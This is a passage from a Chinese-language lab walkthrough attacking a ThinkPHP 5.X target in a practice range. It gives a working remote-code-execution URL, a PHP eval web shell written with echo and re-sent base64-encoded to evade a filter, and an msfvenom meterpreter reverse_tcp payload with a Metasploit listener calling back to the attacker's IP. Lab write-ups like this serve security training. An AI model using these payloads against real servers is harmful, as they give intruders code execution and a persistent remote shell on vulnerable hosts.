 ```bash
```
可以看到Target1存在ftp、ssh、http等端口，且是一个Linux的操作系统。

2、既然存在http服务，那就用浏览器打开看看是个什么
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS3.png)
3、原来是ThinkPHP 5.X框架，这不禁让我想到18年底爆出的该框架的远程命令执行漏洞，那就先用POC测试一下
```
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS4.png)
4、成功出现了PHPinfo界面，说明该版本是存在这在漏洞的，接下来就可以直接上工具写入一句话了，当然也可以使用POC写入一句话，不过还是工具方便些
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS5.png)
5、在工具中命令是可以被执行的，那就getshell吧
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS6.png)
6、昂~ getshell失败，没关系，直接echo写入一句话
```bash
echo "<?php @eval($_POST['TeamsSix']);?>" > shell.php
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS7.png)
7、通过浏览器访问，查看shell.php是否上传成功
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS8.png)
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS9.png)
8、可以看到shell.php已经被上传上去了，但是提示语法错误，同时蚁剑也返回数据为空，看来一句话上传的有点问题，那就cat查看一下
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS10.png)
```
之前：<?php @eval($_POST['TeamsSix']);?>
之后：<?php @eval(['TeamsSix']);?>
```

9、不难发现$_POST被过滤了，那就利用Base64编码后再次上传试试
```bash
echo "PD9waHAgQGV2YWwoJF9QT1NUWydUZWFtc1NpeCddKTs/Pg==" | base64 -d > shell.php
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS11.png)
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS12.png)
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS13.png)
10、此时可以看到一句话已经正常，蚁剑也能够连接成功，此时已经获取到该主机的shell，下一步添加代理
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS14.png)
## b、设置代理
>注：本文中设置代理的方法参考安全客里面tinyfisher用户的一篇文章，其文章地址在本文末尾参考文章处。

1、查看自己的IP地址，并根据自己的IP地址及目标靶机的系统类型生成对应的后门文件
```bash
root@kali:~# ifconfig
root@kali:~# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.113 LPORT=6666 SessionCommunicationTimeout=0 SessionExpirationTimeout=0 -f elf >shell.elf
```
![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/CFS15.png)
2、在kali中配置运行监听模块
```bash
root@kali:~# msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 0.0.0.0
msf5 exploit(multi/handler) > set lport 6666
msf5 exploit(multi/handler) > options
msf5 exploit(multi/handler) > run
```